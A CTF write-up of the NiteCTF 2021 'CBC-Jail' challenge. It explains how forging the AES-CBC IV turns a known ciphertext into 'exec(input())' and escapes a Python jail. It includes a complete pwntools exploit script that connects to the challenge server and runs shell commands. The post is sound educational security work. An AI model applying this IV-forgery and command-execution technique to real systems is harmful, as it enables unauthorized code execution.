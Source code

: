 ```yaml
---
author: xtylez
categories: ctf
date: 2021-12-13 20:00:00 +0100
layout: post
tags: [xtylez, crypto]
title: NiteCTF 2021 - CBC-Jail [Crypto/Pwn]
---
```


```
Solves: 34
Type:  	crypto/pwn
Difficulty: Easy
Author: Pun1sher + Arkaja

crack() the jail to get the flag. But make sure you get your crypto right.
```

## INTRODUCTION ##

This was a very fun challenge to solve from niteCTF which involved knowledge of how AES-CBC worked and how to bypass a blacklist made in python which didn't filter all the interesting functions we could `exec()`.

## CODE ANALYSIS ##

As we open the file, we can see that we have three functions, `encrypt(msg), decrypt(msg,iv), weirdify(inp)`. which are all based on `AES-CBC 128bit` mode.

We can also see that the KEY and IV are randomly generated each time we open the connection to the server.

Also, we are given a "hint" by the challenge creator:

```python
print('Welcome to Prison.')
print('A mad cryptographer thought it would be cool to mess your shell up.')
print('Lets see if you can "crack()" your way out of here')
print("As a gift we'll give you a sample encryption")
print(encrypt(b'trapped_forever'))
```

Where `encrypt()` does the following:

```python
def encrypt(msg):
    msg = pad(msg,16)
    cipher = AES.new(KEY,AES.MODE_CBC,IV)
    encrypted = cipher.encrypt(msg)
    encrypted = encrypted.hex()
    msg = IV.hex() + encrypted
    return msg
```

Looks like the encryption is being done correctly and that we have the IV and Ciphertext, as we have the source we also have the Plaintext.

Now lets take a look at the `weirdify()` function:

```python
def weirdify(inp):
    iv = bytes.fromhex(inp[:32])
    msg = bytes.fromhex(inp[32:])
    command = decrypt(msg,iv)
    return command
```

Looks like we can manipulate the IV that is being used for decrypting the msg as it's being read from our input.

First I'll append two images so we can understand how AES-CBC works and why the IV is so important here.

![image alt](https://upload.wikimedia.org/wikipedia/commons/d/d3/Cbc_encryption.png "AES-CBC Encrypt")
![image alt](https://upload.wikimedia.org/wikipedia/commons/6/66/Cbc_decryption.png "AES-CBC Decrypt")

As we can see, the Plaintext is first XOR'ed with the IV and then ciphered with the KEY. Same for decryption, first we decrypt and then we XOR.

As we can manipulate the IV, we could try to modify it so when we send the same ciphertext which we already know it's plaintext, XOR's to our desired plaintext.

It can be done because `0 == A XOR A` and because `0 XOR A = A`. It's reversible operation.

So our objective will be to get a new IV like `NEWIV = PT ^ OURPT ^ OLDIV`.

## EXPLOIT ##

First of all we get our input from IO, for that we'll use `pwntools`.

Then we will create our `transform()` function which will generate the desired decrypted plaintext.

```python
def transform(newmsg,iv):
	changeit = newmsg
	for i in range(16-len(newmsg)):
		changeit += b"\t"
	oldmsg = b"trapped_forever\t"
	oldxor = xor(oldmsg,changeit)
	newiv = xor(oldxor,iv[:16])
	return newiv
```

After we have this, we only have to think on how to bypass the filter, in our case we just added an `exec(input())` which bypassed the filter. Now we could just automate everything and it would end up like this:

```python
from pwn import *
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad, unpad

def transform(newmsg,iv):
	changeit = newmsg
	for i in range(16-len(newmsg)):
		changeit += b"\t"
	oldmsg = b"trapped_forever\t"
	oldxor = xor(oldmsg,changeit)
	newiv = xor(oldxor,iv[:16])
	return newiv

LOCAL = False
IP = '34.147.79.216'
PORT = 1337

if LOCAL:
	IP = "127.0.0.1"
	PORT = 9001
	io = remote(IP,PORT)
else:
	io = remote(IP,PORT)
    
for i in range(5):
	print(io.recvline())
    
encrypted = io.recvline().decode().replace("\n","")
enctext = bytes.fromhex(encrypted[32:])
IV = bytes.fromhex(encrypted[:32])

print(f"IV: {IV}")
print(f"ENC: {enctext}")

io.sendline(transform(b"exec(input())",IV).hex() +enctext.hex())
io.sendline(b"os.system('ls')")
io.interactive()
```

And the result would be:

```
>>flag.txt
nite{Th3__gr3at_esc4p3}
server.py
```

[Challenge source code](https://github.com/eskardinha/CTF-Writeups/tree/master/2021/niteCTF/CBC-Jail)
